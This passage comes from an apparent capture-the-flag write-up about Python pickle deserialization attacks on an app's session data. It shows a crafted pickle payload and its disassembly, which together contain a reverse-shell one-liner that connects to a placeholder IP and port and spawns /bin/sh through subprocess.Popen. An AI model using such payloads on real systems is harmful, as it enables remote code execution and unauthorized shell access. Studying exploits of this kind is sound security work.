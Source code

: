 ### Attempt 2 - Piggybacking `session_data`

Next I tried to insert the payload into the session_data before it is terminated by the `. STOP` signal. Still no dice apparently.

Payload:

```python
# Process session_data by stripping the magic number and putting it back afterwards
processed = pickled_session[:-5] + payload[:-1]+b'R'+pickled_session[-5:]
# Output
b'\x80\x03cbuiltins\ngetattr\nq\x00cctn_app.login\nLoginData\nq\x01X\x08\x00\x00\x00unreduceq\x02\x86q\x03Rq\x04X\x05\x00\x00\x00mercyq\x05GA\xd7\xbc@\xba\x01\xf8j\x86q\x06Rq\x07((X\x06\x00\x00\x00pythonX\x02\x00\x00\x00-cX\x8f\x00\x00\x00import sys,socket,os,pty;s=socket.socket();s.connect(("IP", PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")lisubprocess\nPopen\nR.l\xa9oe'
```

Disassembled payload:

```shell
    0: \x80 PROTO      3
    2: c    GLOBAL     'builtins getattr'
   20: q    BINPUT     0
   22: c    GLOBAL     'ctn_app.login LoginData'
   47: q    BINPUT     1
   49: X    BINUNICODE 'unreduce'
   62: q    BINPUT     2
   64: \x86 TUPLE2
   65: q    BINPUT     3
   67: R    REDUCE
   68: q    BINPUT     4
   70: X    BINUNICODE 'mercy'
   80: q    BINPUT     5
   82: G    BINFLOAT   1592853224.030787
   91: \x86 TUPLE2
   92: q    BINPUT     6
   94: R    REDUCE
   95: q    BINPUT     7
   97: (    MARK
   98: (        MARK
   99: X            BINUNICODE 'python'
  110: X            BINUNICODE '-c'
  117: X            BINUNICODE 'import sys,socket,os,pty;s=socket.socket();s.connect(("IP", PORT));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
  265: l            LIST       (MARK at 98)
  266: i        INST       'subprocess Popen' (MARK at 97)
  284: R    REDUCE
  285: .    STOP
```

### Attempt 3 - Packing our own payload along with CRC32 hash
